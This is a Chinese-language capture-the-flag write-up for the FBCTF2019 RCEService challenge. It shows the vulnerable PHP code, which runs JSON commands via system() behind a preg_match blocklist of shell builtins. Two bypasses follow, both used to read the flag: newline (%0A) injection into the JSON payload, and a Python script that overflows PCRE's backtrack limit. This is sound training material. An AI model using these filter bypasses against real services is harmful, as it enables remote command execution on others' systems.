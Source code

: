 # [FBCTF2019]RCEService 绕过preg_match

确实第一次做想不到

dir啥的都扫不出来

因为 buu没有给源代码

所以完全搞不出来

只能去看看wp偷一个

```php
<?php
 
putenv('PATH=/home/rceservice/jail');
设置环境变量为 该目录
 
 
if (isset($_REQUEST['cmd'])) {
  $json = $_REQUEST['cmd'];
 
  if (!is_string($json)) {
判断是不是字符串
 
 
    echo 'Hacking attempt detected<br/><br/>';
  } elseif (preg_match('/^.*(alias|bg|bind|break|builtin|case|cd|command|compgen|complete|continue|declare|dirs|disown|echo|enable|eval|exec|exit|export|fc|fg|getopts|hash|help|history|if|jobs|kill|let|local|logout|popd|printf|pushd|pwd|read|readonly|return|set|shift|shopt|source|suspend|test|times|trap|type|typeset|ulimit|umask|unalias|unset|until|wait|while|[\x00-\x1FA-Z0-9!#-\/;-@\[-`|~\x7F]+).*$/', $json)) {
    echo 'Hacking attempt detected<br/><br/>';
  } 
 
过滤
 
else {
    echo 'Attempting to run command:<br/>';
    $cmd = json_decode($json, true)['cmd'];
    if ($cmd !== NULL) {
      system($cmd);
    } else {
      echo 'Invalid input';
    }
    echo '<br/><br/>';
  }
}
 
?>
```

代码还是很简单的

主要是怎么做

## 思路

## 第一种解法

首先我们使用ls 看看 通过json格式

```csharp
{"cmd":"ls"}
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/e7b48a9ff1a9452236c09124df07c570.png" alt="" style="max-height:221px; box-sizing:content-box;" />


发现是ok的

那我们根据源代码 发现 该代码通过preg_match过滤了很多

 [https://www.cnblogs.com/20175211lyz/p/12198258.html](https://www.cnblogs.com/20175211lyz/p/12198258.html) 

但是是通过

```cobol
/^.*(flag).*$/
```

这种方式 我们直接通过换行绕过 %OA

```perl
{%0A"cmd":"ls /"%0A}
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/7a23b9ea9bced4cc1dd020fae5ec926d.png" alt="" style="max-height:167px; box-sizing:content-box;" />


成功执行 我们现在看看 环境变量的目录下有什么

```perl
{%0A"cmd":"ls /home/rceservice"%0A}
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/0103b2098e2c18a486fdb99920960255.png" alt="" style="max-height:199px; box-sizing:content-box;" />


发现存在了flag

我们怎么读取呢

我们首先去找到cat命令的绝对路径

```cobol
/bin/cat
```

然后就可以读取了 因为开始设置了环境变量 所以不能直接使用cat

```cobol
?cmd={%0A"cmd":"/bin/cat /home/rceservice/flag"%0A}
```

## 第二种解法

这道题都是围绕着我们如何绕过 preg_match过滤来进行的

我们可以通过 P神的 PRCE 来进行

因为preg_match 会进行回溯操作

 [PHP利用PCRE回溯次数限制绕过某些安全限制 | 离别歌](https://www.leavesongs.com/PENETRATION/use-pcre-backtrack-limit-to-bypass-restrict.html) 

意思就是

```cobol
preg_match 是按照顺序匹配的 .* 匹配所有 然后再 匹配下一个正则
 
.* 匹配完 就会发现是错误的 然后就开始回溯到正确的地方
 
但是回溯的次数是100万次
 
所以我们让他超过100万次
 
就可以造成无法回溯 绕过 preg_match
```

```cobol
import requests
 
payload = '{"cmd":"/bin/cat /home/rceservice/flag","zz":"' + "a"*(1000000) + '"}'
 
res = requests.post("http://8f81c713-85f8-45df-917f-0c923e3fea26.node4.buuoj.cn:81/", data={"cmd":payload})
print(res.text)
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/714dd92d35b71a0607e04479953b9575.png" alt="" style="max-height:280px; box-sizing:content-box;" />